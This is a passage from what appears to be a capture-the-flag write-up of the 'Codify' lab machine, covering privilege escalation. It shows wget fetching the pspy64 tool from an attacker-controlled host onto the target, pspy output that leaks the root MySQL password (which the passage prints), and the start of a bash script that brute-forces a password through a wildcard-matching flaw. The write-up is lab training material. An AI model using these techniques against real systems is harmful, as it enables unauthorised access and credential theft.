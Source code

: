 I'll upload [pspy64](https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64) onto the box and monitor the process to caught the password.
```console
joshua@codify:~$ wget 10.10.14.78/pspy64
--2024-11-23 15:18:38--  http://10.10.14.78/pspy64
Connecting to 10.10.14.78:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                       100%[=============================================>]   2.96M   659KB/s    in 4.7s

2024-11-23 15:18:43 (644 KB/s) - ‘pspy64’ saved [3104768/3104768]

joshua@codify:~$
```

```console
Serving on http://0.0.0.0:80
10.129.240.130 - - [2024-11-23 10:18:32] "GET /pspy64 HTTP/1.1" 200 -
```

```console
joshua@codify:~$ ./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d
    <SNIP>
2024/11/23 15:26:28 CMD: UID=0     PID=2459   | /bin/bash /opt/scripts/mysql-backup.sh
2024/11/23 15:26:28 CMD: UID=0     PID=2460   | /usr/bin/echo Password confirmed!
2024/11/23 15:26:28 CMD: UID=0     PID=2461   | /bin/bash /opt/scripts/mysql-backup.sh
2024/11/23 15:26:28 CMD: UID=0     PID=2464   | /usr/bin/grep -Ev (Database|information_schema|performance_schema)
2024/11/23 15:26:28 CMD: UID=0     PID=2463   | /usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 -e SHOW DATABASES;
2024/11/23 15:26:28 CMD: UID=0     PID=2462   | /bin/bash /opt/scripts/mysql-backup.sh
2024/11/23 15:26:28 CMD: UID=0     PID=2466   |
2024/11/23 15:26:28 CMD: UID=0     PID=2468   | /bin/bash /opt/scripts/mysql-backup.sh
2024/11/23 15:26:28 CMD: UID=0     PID=2467   | /bin/bash /opt/scripts/mysql-backup.sh
2024/11/23 15:26:29 CMD: UID=0     PID=2469   | /bin/bash /opt/scripts/mysql-backup.sh
2024/11/23 15:26:29 CMD: UID=0     PID=2471   | /bin/bash /opt/scripts/mysql-backup.sh
2024/11/23 15:26:29 CMD: UID=0     PID=2470   | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 sys
2024/11/23 15:26:30 CMD: UID=0     PID=2472   |
2024/11/23 15:26:30 CMD: UID=0     PID=2473   | /bin/bash /opt/scripts/mysql-backup.sh
2024/11/23 15:26:30 CMD: UID=0     PID=2474   | /usr/bin/chown root:sys-adm /var/backups/mysql
    <SNIP>
```
As we can see in the `pspy64`'s output the password of root is `kljh12k3jhaskjh12kjh3`. (`-p` is password flag.)

#### brute forcing

When I enter "k*" it works.
```console
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root:
Password confirmed!
```
This Bash script can brute-force the root password by iteratively appending characters using wildcards to test different combinations until the correct password is found.
```bash
#!/bin/bash

leaked_password=""
valid_chars="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-_=+[]{}\|;:'\",<.>/?"
previous_password=""
```